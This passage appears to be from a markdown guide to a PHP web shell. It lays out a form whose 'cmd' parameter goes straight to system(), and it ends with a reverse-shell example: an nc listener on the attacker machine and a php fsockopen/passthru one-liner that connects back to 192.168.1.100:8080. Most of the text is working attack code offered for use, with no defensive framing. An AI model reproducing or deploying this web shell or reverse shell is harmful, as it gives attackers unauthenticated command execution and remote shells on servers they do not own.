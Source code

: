 3. **Execute commands**
   - Enter commands in the text field
   - Click "Execute" to run the command
   - View output in the pre-formatted area below

### Web Shell Components

#### HTML Form
```html
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
```
- Uses GET method for simplicity
- Command input field with ID `cmd`
- Execute button to submit the command

#### PHP Processing
```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```
- Checks if `cmd` parameter exists in GET request
- Executes the command using `system()` function
- Outputs results directly to the page

#### JavaScript Enhancement
```javascript
<script>document.getElementById("cmd").focus();</script>
```
- Automatically focuses the command input field
- Improves user experience

---

## 3. Usage Examples

### Reverse Shell Examples

#### Basic Reverse Shell
```bash
# On attacker machine
nc -lvnp 8080

# On target server (via PHP execution)
php -r '$sock=fsockopen("192.168.1.100",8080);passthru("sh <&3 >&3 2>&3");'
```
